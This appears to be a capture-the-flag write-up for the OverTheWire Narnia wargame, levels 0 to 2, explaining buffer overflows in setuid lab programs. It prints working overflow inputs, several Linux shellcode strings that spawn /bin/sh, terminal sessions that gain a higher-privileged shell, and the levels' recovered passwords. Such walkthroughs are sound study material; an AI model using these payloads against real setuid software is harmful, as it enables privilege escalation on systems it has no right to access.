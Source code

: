 ## OverTheWire: Narnia
After the frusration and lack of success in the Oman Quals CTF, I've decided to redirect my attention to some of the OverTheWire challenges. I've already completed both the Bandit and Leviathon series of challenges, but will not be doing write-ups on those due to the amount of resources already out there.

### Narnia0
After logging in with the username and password `narnia0` and reading the Welcome banner. It is discovered that the passwords for each level are stored in /etc/narnia_pass/narniaX and the programs to be exploited are in /narnia/ (as well as the source code for said programs).

After looking at the code for narnia0.c, we can see that we need the 'val' variable to be equal to 0xdeadbeef which can be done with a buffer overflow since the 'buf' variable that is read-in from user input is just before the val variable on the stack. Also, because the executable narnia0 has the setuid bit set (s in the owner execute spot in a long listing) the shell that is run in the program will have the privileges of the owner, i.e. narnia1, and allow us to view that users password file.

```
int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

By entering `(python -c 'print "A"*20 + "\xef\xbe\xad\xde"*10')` and piping it into the file we don't get the "WAY OFF!!!!" that we normally would but we also don't get the shell that we expect. So we know it works (kind of) but why are we using those commands. Well '-c' is used to tell python that the following information will be command-line input. Then the 20 A's are used to take up the space in the 'buf' variable and finally we have the 0xdeadbeef in reverse byte-order to account for how the bytes are stored in memory (most PCs are little-endian, i.e. the byte with the littlest value is stored first, this can be checked with the command `lscpu | grep "Byte Order"`).

Now we just have to add something to leave the input open after our code is run (after some research, I found the best way to do this was via the `cat` command).

So the full series of commands is as follows:
```
narnia0@narnia:~$ (python -c 'print "A"*20 + "\xef\xbe\xad\xde"'; cat) | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ▒
val: 0xdeadbeef
whoami
narnia1
```
And we can use this to find our flag:
```
cat /etc/narnia_pass/narnia1
efeidiedae
```

### Narnia1
At first, I thought this one would be easier than the previous challenge. As you can see from the code below, the program attempts to execute code located at the EGG environment variable. Environment Variables are globally accessable variablesfor sharing information between different applications and processes (they can be viewed by entering the `env` command). Since this program runs as Narnia2 (it has a higher privelege as in the last challenge), we want to get the program to open a shell so we can view the Narnia2 password.

```
int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

I initially attempted to simply set $EGG to '/bin/sh' (the $ symbol is used when accessing a global variable). I ran the program and got: `Trying to execute EGG! Segmentation fault`, so that didn't work. It's just displaying the string instead of executing the code and opening the shell. What we need is shellcode!

Shellcode is made up of commands used as the payload for exploitation, named so because of its ability to open a command shell. My first attempt was using the shellcode from **Hacking: The Art of Exploitation** but this attempt didn't work either. After some research, I discovered that my problem was due to the fact that shellcode must be tailored to the machine it is running on. To check our target system, we enter `lscpu`. From here we discover the following:
```
Architecture:          x86_64
CPU op-mode(s):        32-bit, 64-bit
Byte Order:            Little Endian
CPU(s):                2
On-line CPU(s) list:   0,1
Thread(s) per core:    1
Core(s) per socket:    2
Socket(s):             1
Vendor ID:             GenuineIntel
CPU family:            15
Model:                 6
Model name:            Common KVM processor
Stepping:              1
CPU MHz:               3074.244
BogoMIPS:              6148.48
Hypervisor vendor:     KVM
Virtualization type:   full
L1d cache:             32K
L1i cache:             32K
L2 cache:              4096K
L3 cache:              16384K
```

We can see that our target computer is being run on a Virtual Machine, is 64-bit, and has an Intel processor (and we already know it's running Linux due to it's file system). So after searching for Linux x86_64 shellcode, I found some and placed it in the EGG variable.
```
narnia1@narnia:~$ export EGG=$(echo -en "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")
narnia1@narnia:~$ echo $EGG
1▒H▒ѝ▒▒Ќ▒▒H▒▒ST_▒RWT^▒;
narnia1@narnia:~$ /narnia/narnia1
Trying to execute EGG!
Segmentation fault
```
That didn't work, so I tried with some different shellcode, and then I tried again, and again, and again...
```
narnia1@narnia:~$ export EGG=$(echo -en "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05")
narnia1@narnia:~$ /narnia/narnia1
Trying to execute EGG!
Illegal instruction
narnia1@narnia:~$ export EGG=$(echo -en "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05")
narnia1@narnia:~$ /narnia/narnia1
Trying to execute EGG!
Segmentation fault
narnia1@narnia:~$ export EGG=$(echo -en "\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05")
narnia1@narnia:~$ /narnia/narnia1
Trying to execute EGG!
narnia1@narnia:~$ export EGG=$(echo -en "\xeb\x18\x5e\x31\xc0\x88\x46\x09\x89\x76\x0a\x89\x46\x0e\xb0\x0b\x89\xf3\x8d\x4e\x0a\x8d\x56\x0e\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x64\x61\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43")
narnia1@narnia:~$ /narnia/narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
nairiepecu
```
...until I finally got it. Whew! That took a lot longer than expected.

I hope this helped to explain some basic computer exploitation principles in regards to environment variables. As for shellcode, I'll do some reading up on that and provide some better explanations in the future.

### Narnia2
First off, I would like to thank [http://github.com/cphamlet Connor Hamlet]

```
narnia2@narnia:~$ /narnia/narnia2 $(python -c 'print "A"*132+"\x50\xc8\xe4\xf7\x10\x10\xe1\xf7\xc8\xec\xf6\xf7"')
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
vaequeezee
```
